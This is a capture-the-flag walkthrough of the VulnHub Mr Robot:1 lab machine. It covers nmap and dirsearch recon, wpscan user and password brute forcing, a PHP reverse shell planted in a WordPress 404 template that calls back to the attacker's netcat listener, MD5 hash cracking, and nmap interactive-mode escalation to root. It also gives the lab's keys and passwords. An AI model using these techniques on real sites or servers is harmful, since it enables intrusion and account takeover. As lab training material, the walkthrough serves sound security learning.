

[](#) [](#)  [](https://www.vulnhub.com)  [](https://www.vulnhub.com/entry/mr-robot-1,151/)  [](https://nmap.org)  [](https://github.com/wpscanteam/wpscan)  

[](https://github.com/maurosoria/dirsearch)  [](https://nc110.sourceforge.io/)  [](https://www.python.org)  [](https://www.gnu.org/software/bash/)  

[](https://wordpress.org)  [](#)  [](https://crackstation.net)  

# Walkthrough Mr Robot:1

## Setting up the machine
The machine is set up in a closed environment [internal adapter] in ther virtual machine enabling communication only through that adapter.

### Setup a Virtual Lab
1. Setup the Network to be internal adapter and name it `Test-network`.
2. In the command prompt in the windows go to the virtual Box directory 
```cmd
cd "\Program Files\Oracle\VirtualBox"
```
3. Now type in
```cmd
vboxmanage dhcpserver add --network=Test-network --server-ip=10.38.1.1 --lower-ip=10.38.1.110 --upper-ip=10.38.1.120 --netmask=255.255.255.0 --enable
```
This enables the dhcp server virtually and allocates the ip address for range 10.38.1.110-120.

4. Now you have to enable another adapter for your kali linux machine having connection with the internal adapter `Test-network`.

5. Boot up Both the machines.
 


--
## Guide:
### Key-1-of-3
1. Run the below command to know the available devices.
```bash
sudo arp-scan -l 
```


You can see my ip address.


Now we know the Ip addresses.
### Ip-addresses :
| Ip address  | Associated device |
| ------------- |:-------------:|
| 10.38.1.112      | Kali-VM     |
| 10.38.1.113      | Mr_Robot     |

2. Run the command   
```bash
nmap -p- -A 10.38.1.113 -oN scan.txt
``` 

Here is the screenshot of scan report.

3. From the scan, Port 80 is open indicating an active web server in there
4. Go to the Browser and try to open ther site.
5. Since this is a web server, we can see whether there are any hidden directories in there
```bash
dirsearch -u http://10.38.1.113/
```


This image shows the output of dirsearch which has successfull pages [code = 200]
6.By examining all the sites, we can see the key in robots.txt; `http://10.38.1.113/robots.txt`.

7. By going to the site `http://10.38.1.113/key-1-of-3.txt` we can see the 1st key
```
073403c8a58a1f80d943455fb30724b9
```


### Key-2-of-3.txt

1. In the same `http://10.38.1.113/robots.txt`, we find a `.dic` file containing large number of elements 
use `wc <filename>` to see the number of entries in the file.
2. We can observe that the words are repeated and in the file.
3. Use the command below, to sort it and write to another file
```bash
cat fsocity.dic | sort -u > sorted_fsocity.txt
```
4. If we have a look at the directories, we can notice a wordpress login page

5. Open the link in the browser - `http://10.38.1.113/wp-login.php`.
6. We have a login page and a wordlist.
7. use `wpscan` to enumirate for the available users.
```bash
wpscan -v --url http://10.38.1.113/wp-login.php --enumerate --users-list sorted_fsocity.txt -o wpscan.txt
```

Users available in the server

8. Password enumiration : 
```bash
wpscan -v --url http://10.38.1.113/wp-login.php -U "elliot" -P sorted_fsocity.txt -o password_elliot.txt
```

Password for the user elliot.

9. Now login to the user using the credentilas we got `Username: elliot, Password: ER28-0652` 
10. Navigate to the `appearance -> editor -> 404 Template*`
11. Here we shall place a script that opens a shell [reverse shell]
12. Type in `locate php-reverse` and copy the file named `/usr/share/laudanum/wordpress/templates/php-reverse-shell.php` to your `pwd`.
13. Edit the ip address and portnumber to Ip = your kali linux ip address and port number = default https port number, In  my case its `IP: 10.38.1.112` & `Port: 443`.
14. Now open a new terminal instance `ctrl+shift+T` and type in the below command to start listining to the `Port 443`.
```bash
sudo nc -lvnp 443
```
15. Once yoy started this, go to the browser and type in any name followed by the ipaddress of the server
```web
For example : http://10.38.1.113/hi
```

This results a forbidden page and our script is there in forbidden page and it gets executed. leading to `daemon` shell behind.

16. Here the choice of template made in `10th step` is not to be only `404 template`. It can be any of the listed. but redirecting to a forbidden page is a way more easier that redirecting to any particular page to `execute` the script. Any page that has a `client-side` error returns `404` and makes executing the script easy.
17. Now navigate to `cd home/robot` to find a `Key-2-of-3.txt` owned by user, `robot` and a `password.raw-md5` hash file containing the hash of the robot password saying, `robot:c3fcd3d76192e4007dfb496cca67e13b`
18. Decrypting the hash using [crackstation](https://crackstation.net/) , we get the password as `abcdefghijklmnopqrstuvwxyz`
19. Type in `sudo su` -> this results in `su: must be run from a terminal`.
```Explaination
This is because the demon by default has no shell;
`$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
`
The above output says that.
since we dont have a shell we cannot switch users.
```
20. execute the below script in ther shell to invoke a bash shell for the user `daemon`
```bash
python -c 'import pty;pty.spawn("/bin/bash")'

```
21. Now we have a shell and we can login using `sudo su robot` and the `password : abcdefghijklmnopqrstuvwxyz`
22. Now we can see the contents of the file `Key-2-of-3.txt`
23. `Key-2-of-3.txt : 822c73956184f694993bede3eb39f959`

### Key-3-of-3.txt:

1. For this key we use the interactive mode of nmap which inturn can lead to a root shell 
[nmap vulnerability](https://vk9-sec.com/nmap-privilege-escalation/)
```Previlage Esclation 
In a interactive mode if we type in `!/bin/bash` we get the bash shell 
The maximum previlage is root, Nmap runnig in highest previlage causes this.
```
2. nmap --interactive
    1. Runs the nmap with higher previlage [previlage escalation]
    2. In an interactive mode if "!bash" is typed in, then the shell gets opened with the previlage of the interacting software.
    3. his results in higher previlage shell out.
    4. If !bash is typed in
        results, a current user owned bash shell
    5. If !sudo /bin/bash is typed in,
        results in saying
                `nmap> !sudo /bin/bash
                !sudo /bin/bash
                [sudo] password for robot: abcdefghijklmnopqrstuvwxyz
                robot is not in the sudoers file.  This incident will be reported.`

3. Robot is not in the sudoers file.

4. However, we are able to invoke a shell 
5. Since sh is a root owned shell by default, try
    1. `!sh` [this is a root shell by default].
        this resulted in ,
        nmap> !sh
        !sh
        `#` whoami
        `root`
6. Finally we got the `root` shell so we can see the contents of the root and there you go `cat /root/key-3-of-3.txt` and the key is `04787ddef27c3dee1ee161b21670b4e4`


